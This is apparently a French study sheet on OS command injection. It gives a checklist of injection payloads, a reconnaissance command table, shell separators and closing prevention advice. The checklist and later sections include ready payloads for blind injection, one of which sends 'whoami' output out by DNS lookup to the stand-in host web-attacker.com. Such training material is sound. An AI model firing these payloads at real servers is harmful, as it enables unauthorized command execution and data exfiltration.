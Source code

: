 ```yaml
---
title: "Command injection"
category: "Serveur"
tag: "Web"
---
```


## CheckList en pratique
- Injection avec retour d'information : `& whoami &` avec les différents séparateurs de commandes (`&,&&,|,||,;,\n,0x0a,`)
- Bind injection :
    - Détecter en provoquant du délai : `qsParam=test||ping+-c+10+127.0.0.1+||`
    - Exploitation en faire une redirection dans un dossier writable : `email=||whoami>/var/www/images/output.txt||`
    - Exploitation par injection utilisant des techniques **OAST** :
    ``&email=test||nslookup+kgji2ohoyw.web-attacker.com||`` 
    - Exploitation & **exfiltration de données** par injection utilisant des techniques **OAST** : 
    ``&email=test||nslookup+`whoami`.kgji2ohoyw.web-attacker.com||``

## Explication de la vulnérabilité
Cette vulnérabilité web permet à un attaquant d'exécuter une commande de système d'exploitation (OS) sur le serveur sur lequel l'application est exécutée, et compromettre toute l'application et ses données. Souvent, cette attaque amène à une exploitation de l'infrastructure hôte en pivotant sur d'autres systèmes de l'organisation.

## Exécution de commandes arbitraires
Considérons un site de magasin qui vérifie si un article est en stock de la manière suivante :
`https://insecure-website.com/stockStatus?productID=381&storeID=29`
Pour fournir l'information et pour des raisons historiques, la fonctionnalité va appelé une commande shell avec le produit et son ID de la manière suivante :
`stockreport.pl 381 29`, et le retour est renvoyé à l'utilisateur.

Sans protection, l'attaquant peut injection la commande suivante `& echo toto &` ce qui donnera `stockreport.pl & echo toto & 29`

## Commandes utiles
|Purpose of command|Linux|Windows|
|:----|:----|:----|
|Nom de l'utilisateur courant|whoami|whoami|
|système d'exploitation|uname -a|ver|
|configuration réseau|ifconfig|ipconfig /all|
|connections réseau|netstat -an|netstat -an|
|processus courants|ps -ef|tasklist|

## Vulnérabilités d'injection Blind de commandes OS
De nombreuses injections de commandes sont faites en aveugle, ce qui veut dire que l'application ne renvoie pas de sortie de la commande dans la réponse HTTP. On peut exploiter les vulnérabilités en aveugle, mais de différentes manières.

pour illustrer cela, on peut prendre le cas d'une application qui permet de donner un feedback sur un site en donnant son adresse mail et le message de feedback. L'application du côté serveur génère un email vers l'administrateur du site contenant le feedback. 

Pour cela, il peut utiliser un programme `mail` avec les détails, par exemple :
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
### Détecter les injections de commandes OS en aveugle avec l'utilisation de délais
On peut utiliser une injection de commande qui va ajouter un temps de délai, nous permettant de voir que la commande a bien été injecté.
On peut faire ça avec `ping` par exemple, pour allonger le temps de traitement  :
`& ping -c 10 127.0.0.1 &`
Cette commande va ping son adresse réseau de loopback pendant 10 sec.

### Exploitation d'injections de commandes OS en aveugle par redirection de sortie
On peut rediriger la sortie de l'injection de commandes dans un fichier à l'intérieur de la racine du site web, que l'on peut récupérer avec le navigateur ensuite.

Par exemple, si l'application sert des ressources statiques à partir de l'emplacement du système de fichiers `/var/www/static`, vous pouvez soumettre l'entrée suivante :

`& whoami > /var/www/static/whoami.txt &`

### Exploitation d'injections de commandes OS en aveugle à l'aide de techniques hors bande (OAST)
On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système qu'on contrôle, en utilisant des techniques OAST. En voici un exemple :
`& nslookup kgji2ohoyw.web-attacker.com &`

Ce payload utilise la commande nslookup pour provoquer une recherche DNS pour le domaine spécifié. L'attaquant peut surveiller l'exécution de la recherche spécifiée et détecter ainsi que la commande a été injectée avec succès.

On peut aussi exfiltrer facilement la sortie de commandes avec cette technique :
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``
Ce qui provoquera une recherche DNS vers le domaine de l'attaquant contenant le résultat de la commande whoami :
`wwwuser.kgji2ohoyw.web-attacker.com`
## Façons d'injecter des commandes du système d'exploitation
De nombreux métacaractère du shell peuvent être utilisés pour effectuer des attaques par OS command injection.
On peut icter les caractères qui servent de séparateurs de commandes, permettant d'enchaîner les commandes.

Sous Windows et Unix on a par exemple :
- `&`
- `&&`
- `|`
- `||`

Sous les systèmes basés sur Unix :
- `;`
- `\n` ou `0x0a`
On a également la possibilité de faire des commandes de types inline :
- `` ` ``
- `$()`

## Comment s'en prémunir
La meilleure manière de s'en prémunir est de ne jamais appeler des commandes OS à partir d'un code provenant de la couche applicative. Il existe des alternatives sécurisées notamment avec des APIs.

S'il est inévitable de faire une commande OS avec une entrée utilisateur, alors une validation de l'entrée doit être faite, ce qui peut inclure :
- une validation à l'aide d'une liste blanche des valeurs autorisées
- une validation si l'entrée doit être un caractère numérique
- une validation des entrées alphanumériques, sans autoriser d'autres caractères comme les espaces ou autres.